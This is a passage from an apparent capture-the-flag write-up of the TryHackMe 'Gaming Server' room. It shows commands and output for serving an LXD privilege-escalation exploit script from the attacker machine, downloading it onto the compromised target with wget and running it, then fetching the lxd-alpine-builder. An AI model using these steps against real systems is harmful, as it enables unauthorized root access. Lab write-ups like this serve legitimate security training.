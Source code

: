 ```
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Gaming Server]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Now we download the script from our target machine, i will do it in /tmp and make it executable :

```
ohn@exploitable:/tmp$ wget http://10.8.162.183/46978.sh
--2025-07-20 16:52:56--  http://10.8.162.183/46978.sh
Connecting to 10.8.162.183:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1451 (1.4K) [text/x-sh]
Saving to: ‘46978.sh’

46978.sh                          100%[============================================================>]   1.42K  --.-KB/s    in 0s      

2025-07-20 16:52:57 (3.21 MB/s) - ‘46978.sh’ saved [1451/1451]

john@exploitable:/tmp$ ls
46978.sh
systemd-private-c5e02dbe2a954b53a82db9413be62208-apache2.service-jpdte1
systemd-private-c5e02dbe2a954b53a82db9413be62208-systemd-resolved.service-Zmlwy3
systemd-private-c5e02dbe2a954b53a82db9413be62208-systemd-timesyncd.service-REM6Ji
john@exploitable:/tmp$ chmod +x 46978.sh 

```

Now we try to execute it :

```
john@exploitable:/tmp$ bash 46978.sh 

Usage:
        [-f] Filename (.tar.gz alpine file)
        [-h] Show this help panel

```

So we need the .tar.gz alpine file, let's find out what it is .

First we download the lxd alpine builder :

```
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Gaming Server]
└─$ wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine   
--2025-07-20 18:59:12--  https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
Risoluzione di raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.110.133, 185.199.111.133, ...
Connessione a raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connesso.
Richiesta HTTP inviata, in attesa di risposta... 200 OK
Lunghezza: 8064 (7,9K) [text/plain]
Salvataggio in: «build-alpine.1»

build-alpine.1                    100%[============================================================>]   7,88K  --.-KB/s    in 0,001s  

2025-07-20 18:59:13 (5,48 MB/s) - «build-alpine.1» salvato [8064/8064]
```
